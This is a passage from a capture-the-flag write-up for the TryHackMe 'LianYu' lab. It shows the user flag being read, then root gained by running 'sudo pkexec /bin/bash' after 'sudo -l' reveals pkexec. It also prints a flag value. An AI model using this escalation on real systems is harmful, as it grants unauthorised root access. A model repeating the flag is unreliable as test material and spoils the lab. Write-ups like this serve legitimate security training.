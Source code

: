 
				██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
				██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
				██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
				██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
				███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
				╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

Wahhhhhh, we are in.
-ls discover user.txt file. Cat file give us first flag.
```
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```
Next phase is Privilege Escalation

```
sudo -l
```

> To see if there is any command that we can run with root privilege.

![image](https://user-images.githubusercontent.com/44063862/83036417-28867000-a06d-11ea-8596-c9c4f3a0ea98.png)

Seems like, **pkexec** can be run with root privileges. To know more about it we run,

```
man pkexec
```

> pkexec - Execute a command as another user

![image](https://user-images.githubusercontent.com/44063862/83036987-d1cd6600-a06d-11ea-87d2-45dd86e99908.png)

```
sudo pkexec /bin/bash
```

or 

```
sudo /usr/bin/pkexec /bin/bash
```

Successfully change us to root. ls give us root.txt. cat give us our last flag.

![image](https://user-images.githubusercontent.com/44063862/83037039-e27ddc00-a06d-11ea-914d-947c5413b08c.png)

CONGRATULATIONS!! This was a fun machine. Very basic yet fun to root. Good for beginner.

Thank you for reading. :)

**By _sourabh_**
